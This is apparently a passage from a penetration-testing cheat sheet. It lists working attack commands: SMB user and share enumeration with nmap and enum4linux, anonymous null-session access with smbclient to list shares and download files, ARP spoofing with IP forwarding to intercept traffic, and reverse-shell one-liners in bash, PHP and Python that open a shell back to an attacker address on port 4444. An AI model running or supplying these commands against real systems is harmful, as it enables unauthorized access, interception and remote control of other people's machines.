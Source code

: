 enumeration with nmap:
```bash
ll /usr/share/nmap/scripts/ | grep smb-enum-
-rw-r--r-- 1 root root  4846 Jan  9  2019 smb-enum-domains.nse
-rw-r--r-- 1 root root  5931 Jan  9  2019 smb-enum-groups.nse
-rw-r--r-- 1 root root  8045 Jan  9  2019 smb-enum-processes.nse
-rw-r--r-- 1 root root 27262 Jan  9  2019 smb-enum-services.nse
-rw-r--r-- 1 root root 12057 Jan  9  2019 smb-enum-sessions.nse
-rw-r--r-- 1 root root  6923 Jan  9  2019 smb-enum-shares.nse
-rw-r--r-- 1 root root 12531 Jan  9  2019 smb-enum-users.nse

nmap --script=smb-enum-users 192.168.1.10
```

#### null sessions
1) Use "enum4linux -n" to make sure if "<20>" exists:
```bash
enum4linux -n 192.168.1.10
```

2) If "<20>" exists, it means Null Session could be exploited. Utilize the following command to get more details:
```bash
enum4linux 192.168.1.10
```

3) If confirmed that Null Session exists, you can remotely list all share of the target:
```bash
smbclient -L WORKGROUP -I 192.168.1.10 -N -U ""
```

4) You also can connect the remote server by applying the following command:
```bash
smbclient \\\\192.168.1.10\\c$ -N -U ""
```

5) Download those files stored on the share drive:
```bash
smb: \> get Congratulations.txt
```

### ARP spoofing
```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i tap0 -t 10.13.37.100 -r 10.13.37.101
```

### reverse shell
bash
```bash
bash -i >& /dev/tcp/10.0.14.22/4444 0>&1
```

php one line (bash)
```php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.14.10/4444 0>&1'"); ?>
```

python
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.14.22",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")
```

